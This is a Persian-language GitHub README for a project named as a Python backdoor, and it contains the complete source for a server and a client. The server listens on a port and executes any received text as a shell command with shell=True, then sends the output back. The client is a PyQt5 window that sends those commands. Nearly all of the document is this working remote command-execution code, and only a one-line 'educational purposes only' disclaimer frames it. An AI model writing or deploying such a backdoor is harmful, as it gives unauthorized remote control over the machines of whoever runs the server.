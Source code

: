 م

---

# بک دور با پایتون

این پروژه شامل دو قسمت اصلی است: یک سرور که برای اتصال‌های ورودی گوش می‌دهد و دستورات دریافتی را اجرا می‌کند، و یک کلاینت با رابط کاربری PyQt5 که به سرور متصل شده و دستورات را برای اجرا ارسال می‌کند. همچنین کلاینت خروجی دستورات اجرا شده را نمایش می‌دهد.

## امکانات

- اجرای دستورات از راه دور از طریق یک رابط کاربری ساده و کاربرپسند با PyQt5
- نمایش لحظه‌ای خروجی دستورات در برنامه کلاینت
- رابط کاربری آسان برای استفاده با ورودی متن برای دستورات و ناحیه نمایش برای نتایج
- سرور به درخواست‌های چندین کلاینت گوش می‌دهد و آن‌ها را مدیریت می‌کند

## نصب

### پیش نیازها

- Python 3.x
- PyQt5
- تنظیمات شبکه‌ای که ارتباط بین کلاینت و سرور را فراهم کند

### نصب PyQt5

شما می‌توانید PyQt5 را با استفاده از pip نصب کنید:

```bash
pip install PyQt5
```

## استفاده

### اجرای سرور

سرور به اتصال‌های ورودی بر روی هاست و پورت مشخص گوش می‌دهد. دستورات دریافتی را اجرا کرده و خروجی را به کلاینت ارسال می‌کند.

برای اجرای سرور، از دستور زیر استفاده کنید:

```bash
python server.py
```

**کد سرور:**

```python
import subprocess
import socket

def main():
    host = '192.168.0.4'
    port = 999
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(1)
    print(f"Listening on port {port}...")
    while True:
        conn, addr = s.accept()
        print(f"Connected to client: {addr[0]}:{addr[1]}")
        
        while True:
            try:
                command = conn.recv(1024).decode().strip()
                if not command:
                    break

                proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = proc.communicate()

                conn.sendall(output)
                conn.sendall(error)
            except Exception as e:
                conn.sendall(str(e).encode())

        conn.close()

if __name__ == "__main__":
    main()
```

### اجرای کلاینت

کلاینت به سرور متصل شده و یک رابط کاربری گرافیکی برای ارسال دستورات و نمایش نتایج ارائه می‌دهد.

برای اجرای کلاینت، از دستور زیر استفاده کنید:

```bash
python client.py
```

**کد کلاینت:**

```python
import sys
from PyQt5.QtWidgets import QApplication, QWidget, QVBoxLayout, QLineEdit, QPushButton, QTextEdit, QMessageBox
from PyQt5.QtCore import QThread, pyqtSignal
import socket

class ClientThread(QThread):
    output_signal = pyqtSignal(str)

    def __init__(self, host, port, command_input, parent=None):
        super().__init__(parent)
        self.host = host
        self.port = port
        self.command_input = command_input

    def run(self):
        self.conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.conn.connect((self.host, self.port))
        self.output_signal.emit("vasl shod !\n")
        
        while True:
            command = self.command_input.text()
            self.conn.send(command.encode())
            output_data = self.conn.recv(1024).decode()
            self.output_signal.emit(output_data)

class RemoteCommandExecutor(QWidget):
    def __init__(self):
        super().__init__()
        self.init_ui()

    def init_ui(self):
        self.setWindowTitle("Remote Command Executor")

        layout = QVBoxLayout()

        self.output_display = QTextEdit()
        self.output_display.setReadOnly(True)
        layout.addWidget(self.output_display)

        self.command_input = QLineEdit()
        layout.addWidget(self.command_input)

        self.send_button = QPushButton("Send Command")
        self.send_button.clicked.connect(self.send_command)
        layout.addWidget(self.send_button)

        self.setLayout(layout)

        self.host = '192.168.0.4'
        self.port = 999
        self.client_thread = ClientThread(self.host, self.port, self.command_input)
        self.client_thread.output_signal.connect(self.update_output)
        self.client_thread.start()

    def send_command(self):
        command = self.command_input.text()
        self.client_thread.conn.send(command.encode())
        self.command_input.clear()

    def update_output(self, output):
        self.output_display.append(output)

if __name__ == '__main__':
    app = QApplication(sys.argv)
    window = RemoteCommandExecutor()
    window.show()
    sys.exit(app.exec_())
```

## تصاویر
![1717540374372](https://github.com/msade6h/backdoor-with-python/assets/94873023/37c3e9e4-a3cd-489d-a4b7-6680fae4cf78)



*تصویری از رابط کاربری کلاینت برای اجرای دستورات از راه دور.*

## مشارکت

1. ریپازیتوری را فورک کنید.
2. یک شاخه جدید ایجاد کنید (`git checkout -b feature-branch`).
3. تغییرات خود را کامیت کنید (`git commit -am 'Add new feature'`).
4. به شاخه خود پوش کنید (`git push origin feature-branch`).
5. یک Pull Request جدید ایجاد کنید.

## مجوز

این پروژه تحت مجوز MIT منتشر شده است - برای جزئیات بیشتر فایل [LICENSE](LICENSE) را ببینید.

## اعلان

این پروژه فقط برای مقاصد آموزشی است. لطفاً از آن به صورت مسئولانه و اخلاقی استفاده کنید.

---

این نمونه README شامل تمام جزئیات لازم برای توضیح پروژه شما، نصب و اجرای آن و همچنین برخی جزئیات اضافی است که ممکن است برای کاربران مفید باشد. شما می‌توانید این فایل را به دلخواه خود تغییر داده و سفارشی کنید.
